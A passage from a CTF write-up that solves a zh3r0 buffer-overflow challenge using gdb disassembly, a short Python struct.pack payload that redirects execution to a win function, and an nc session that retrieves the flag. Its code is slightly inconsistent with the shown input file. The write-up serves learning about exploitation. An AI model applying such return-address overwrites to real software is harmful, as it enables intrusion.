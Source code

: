 Let's change our input here a little bit. Next thing to do is grab the address
of the win_win() funciton where it begins.
```
(gdb) disassemble win_win
Dump of assembler code for function win_win:
   0x0000000000400707 <+0>:     push   %rbp
   0x0000000000400708 <+1>:     mov    %rsp,%rbp
   0x000000000040070b <+4>:     lea    0x172(%rip),%rdi        # 0x400884
   0x0000000000400712 <+11>:    callq  0x4005d0 <system@plt>
   0x0000000000400717 <+16>:    nop
   0x0000000000400718 <+17>:    pop    %rbp
   0x0000000000400719 <+18>:    retq
End of assembler dump.
```

I wrote a few lines of code to let us encode the function address into chars.
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"
eip = struct.pack("I", 0x0040070b)
payload = struct.pack("I", 0x00000000)
print(padding+eip+payload)
```

**alphabet**
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
```

Let's give this a shot.
```
$ ./chall < alphabet
Welcome to zh3r0 ctf.
Please provide us your name:
cat: flag.txt: No such file or directory
```

NICE! Looks like it reaches the part of the code where it returns the flag.
Let's connect to the service and get this flag.
```
$ nc pwn.zh3r0.ml 3456 < alphabet
Welcome to zh3r0 ctf.
Please provide us your name:
zh3r0{welcome_to_zh3r0_ctf}
```

### Flag
`zh3r0{welcome_to_zh3r0_ctf}`

### Resources
Ghidra - https://ghidra-sre.org/

Videos
- https://www.youtube.com/watch?v=akCce7vSSfw
- https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://www.youtube.com/watch?v=1S0aBV-Waeo

These videos really helped me understand how buffer overflows occur and how to
exploit them :)



